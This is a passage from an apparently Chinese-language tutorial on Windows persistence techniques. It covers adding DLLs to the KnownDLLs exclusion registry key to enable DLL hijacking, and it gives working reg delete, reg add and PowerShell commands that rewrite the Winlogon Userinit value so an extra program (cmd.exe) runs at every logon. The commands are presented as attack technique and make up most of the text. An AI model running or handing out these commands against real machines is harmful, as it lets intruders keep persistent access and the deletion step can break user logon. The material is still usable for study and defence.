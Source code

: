 在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

[DLL劫持原理及其漏洞挖掘（一）](https://www.anquanke.com/post/id/225911)

### 0x5.Winlogon用户登录初始化

winlogon.exe是windows中非常重要的进程,在用户还没登录系统之前就已经存在,并与密码验证相关的重要任务精密相关。例如，当在用户登录时，Winlogon 进程负责将用户配置文件加载到注册表中:

```
HKLM\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

命令行:

```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  /v "Userinit" /t REG_SZ /d "C:\Windows\system32\cmd.exe," /f
```

powershell：

```
Set-ItemProperty   "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name   Userinit -value "C:\Windows\system32\userinit.exe,C:\Windows\system32\cmd.exe"
```

![image-20220308184001989](README/image-20220308184001989.png)
